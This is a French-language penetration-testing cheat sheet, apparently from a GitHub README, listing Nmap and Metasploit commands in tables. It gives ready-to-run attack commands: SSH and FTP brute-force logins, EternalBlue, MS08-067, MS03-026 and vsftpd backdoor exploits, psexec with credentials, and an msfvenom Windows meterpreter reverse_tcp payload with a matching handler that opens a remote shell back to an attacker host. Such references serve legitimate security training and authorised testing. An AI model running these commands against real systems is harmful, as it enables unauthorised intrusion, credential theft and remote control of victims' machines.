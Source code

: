 | 26 | nmap -sW 192.168.1.1 | Scan Window pour détecter les ports ouverts en fonction de la taille de la fenêtre TCP. |
| 27 | nmap -sM 192.168.1.1 | Scan Maimon pour détecter les ports ouverts en utilisant une combinaison de drapeaux FIN/ACK. |
| 28 | nmap -p80 --script http-userdir-enum 192.168.1.1 | Énumérer les répertoires utilisateur sur un serveur web. |
| 29 | nmap -p80 --script http-passwd 192.168.1.1 | Vérifier le fichier /etc/passwd sur le serveur web. |
| 30 | nmap -p80 --script http-robots.txt 192.168.1.1 | Récupérer et analyser le fichier robots.txt. |
| 31 | nmap --script ssh-brute -p 22 192.168.1.1 | Attaque par force brute sur le login SSH en utilisant un script Nmap. |
| 32 | nmap --script ftp-anon 192.168.1.1 | Vérifier la connexion FTP anonyme. |
| 33 | nmap --script ftp-vsftpd-backdoor 192.168.1.1 | Vérifier la vulnérabilité de backdoor vsftpd. |
| 34 | nmap --script http-sql-injection --scriptargs='http-sql-injection.args' -p 80 192.168.1.1 | Vérifier les vulnérabilités d'injection SQL en utilisant un script Nmap. |
| 35 | nmap --script http-phpself-xss 192.168.1.1 | Vérifier les vulnérabilités XSS de PHP_SELF. |
| 36 | nmap --script dns-brute 192.168.1.1 | Effectuer une énumération DNS par force brute. |
| 37 | nmap -p 22 --script ssh-hostkey 192.168.1.1 | Récupérer les clés d'hôte SSH. |
| 38 | nmap -p 53 --script dns-recursion 192.168.1.1 | Vérifier la récursion DNS. |
| 39 | nmap --traceroute 192.168.1.1 | Effectuer un traceroute avec le scan. |
| 40 | nmap -sn 192.168.1.0/24 | Scan ping pour découvrir les hôtes actifs sans scanner les ports. |

## Commandes Metasploit

| No. | Commande | Explication |
|-----|----------|-------------|
| 1 | metasploit | Lancer le framework Metasploit pour le développement et l'exécution d'exploits. |
| 2 | msfconsole | Ouvrir l'interface console de Metasploit. |
| 3 | msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=4444 -f exe > shell.exe | Générer une charge utile (payload) Metasploit. |
| 4 | msfconsole -r script.rc | Exécuter des commandes Metasploit à partir d'un fichier script. |
| 5 | msfconsole -x "use exploit/windows/smb/ms17_010_eternalblue; set RHOST 192.168.1.1; exploit" | Exploiter la vulnérabilité EternalBlue. |
| 6 | msfconsole -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 192.168.1.2; set LPORT 4444; exploit" | Configurer et exécuter un gestionnaire multi pour les charges utiles TCP inversées. |
| 7 | msfconsole -x "use exploit/windows/smb/psexec; set RHOST 192.168.1.1; set SMBUser user; set SMBPass pass; exploit" | Exploiter SMB avec psexec. |
| 8 | msfconsole -x "use auxiliary/scanner/portscan/tcp; set RHOSTS 192.168.1.0/24; set THREADS 10; run" | Scan de port TCP en utilisant Metasploit. |
| 9 | msfconsole -x "use auxiliary/scanner/http/http_version; set RHOSTS 192.168.1.0/24; run" | Scanner les versions HTTP sur un réseau. |
| 10 | msfconsole -x "use auxiliary/scanner/ftp/ftp_login; set RHOSTS 192.168.1.0/24; set USER_FILE /path/to/users.txt; set PASS_FILE /path/to/passwords.txt; run" | Attaque par force brute sur login FTP. |
| 11 | msfconsole -x "use auxiliary/scanner/ssh/ssh_login; set RHOSTS 192.168.1.0/24; set USER_FILE /path/to/users.txt; set PASS_FILE /path/to/passwords.txt; run" | Attaque par force brute sur login SSH. |
| 12 | msfconsole -x "use auxiliary/scanner/smb/smb_version; set RHOSTS 192.168.1.0/24; run" | Scanner les versions SMB sur un réseau. |
| 13 | msfconsole -x "use auxiliary/scanner/smb/smb_enumshares; set RHOSTS 192.168.1.0/24; run" | Énumérer les partages SMB sur un réseau. |
| 14 | msfconsole -x "use auxiliary/scanner/smb/smb_enumusers; set RHOSTS 192.168.1.0/24; run" | Énumérer les utilisateurs SMB sur un réseau. |
| 15 | msfconsole -x "use auxiliary/scanner/rdp/rdp_scanner; set RHOSTS 192.168.1.0/24; run" | Scanner les services RDP sur un réseau. |
| 16 | msfconsole -x "use exploit/windows/smb/ms08_067_netapi; set RHOST 192.168.1.1; exploit" | Exploiter la vulnérabilité MS08-067. |
| 17 | msfconsole -x "use exploit/unix/ftp/vsftpd_234_backdoor; set RHOST 192.168.1.1; exploit" | Exploiter la backdoor vsftpd 2.3.4. |
| 18 | msfconsole -x "use exploit/windows/dcerpc/ms03_026_dcom; set RHOST 192.168.1.1; exploit" | Exploiter la vulnérabilité MS03-026. |
| 19 | msfconsole -x "use exploit/windows/smb/psexec; set RHOST 192.168.1.1; set SMBUser user; set SMBPass pass; exploit" | Exécuter des commandes sur Windows via SMB et psexec. |